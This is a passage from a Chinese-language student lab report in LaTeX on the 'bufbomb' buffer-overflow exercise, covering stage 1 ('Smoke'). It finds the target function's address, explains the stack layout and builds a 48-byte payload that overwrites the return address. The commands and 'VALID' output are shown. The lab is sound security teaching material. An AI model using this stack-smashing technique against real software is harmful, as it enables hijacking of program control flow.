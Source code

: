 \documentclass{paper}
\begin{document}
\begin{enumerate}
\begin{enumerate}
\item 查看\verb|smoke|函数的入口地址

在反汇编代码\verb|bufbomb.s|中找到\verb|smoke|函数中：
\begin{lstlisting}
$ grep "<smoke>" bufbomb.s
08048c90 <smoke>:
\end{lstlisting}
由输出很容易知道，\verb|smoke|函数的入口地址为\verb|0x08048c90|。

\item 将\verb|smoke|函数的入口地址通过缓冲区覆盖原返回地址

根据\ref{l6}中的分析可知，输入缓冲区的大小是\verb|40|个字节，紧跟在缓冲区后 的是保存在栈中的\verb|%ebp|的值以及函数的返回地址。因此我们一共需要输入\verb|48|个字节的内容，其中\verb|smoke|函数的入口地址以小端存储的方式放在最后\verb|4|个字节以覆盖函数的返回地址。在\verb|smoke_U202115325.txt|中输入：
\begin{lstlisting}
$ ./gencode.sh 44 00 > smoke_U202115325.txt // 生成44字节的00
$ echo -n "90 8c 04 08" >> smoke_U202115325.txt // smoke入口地址小端表示
\end{lstlisting}

\end{enumerate}

\item 实验结果

将生成的答案\verb|smoke_U202115325.txt|通过\verb|hex2raw|转化为2进制后再输入到可执行文件bufbomb中：
\begin{lstlisting}
$ ./hex2raw < smoke_U202115325.txt | ./bufbomb -u U202115325
Userid: U202115325
Cookie: 0x7b52e696
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
\end{lstlisting}
顺利通过！

\end{enumerate}

\subsubsection{阶段2:Fizz}
\end{document}
